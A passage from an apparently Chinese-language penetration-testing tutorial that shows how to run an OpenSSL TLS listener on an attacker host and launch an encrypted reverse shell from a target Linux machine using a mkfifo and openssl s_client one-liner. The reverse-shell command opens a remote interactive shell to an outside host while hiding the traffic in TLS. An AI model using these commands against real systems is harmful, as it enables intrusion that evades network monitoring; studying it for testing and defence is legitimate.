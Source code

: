 - 系统：Linux
- IP：192.168.1.8

攻击机：

- 系统：Linux
- IP：47.xxx.xxx.72

假设我们从目标机反弹 shell 到攻击机 。首先需要利用上一步生成的自签名证书，在攻击机上使用 OpenSSL 监听一个端口，在这里使用 2333 端口：

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210423205834-9cd6cdc2-a433-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210423205834-9cd6cdc2-a433-1.png)

此时 OpenSSL 便在攻击机的 2333 端口上启动了一个 SSL/TLS server。

这时在目标机进行反弹 shell 操作，命令为：

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 47.xxx.xxx.72:2333 > /tmp/s; rm /tmp/s
```

[![image-20210505233915830](images/image-20210505233915830.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210423205835-9d206d6a-a433-1.png)
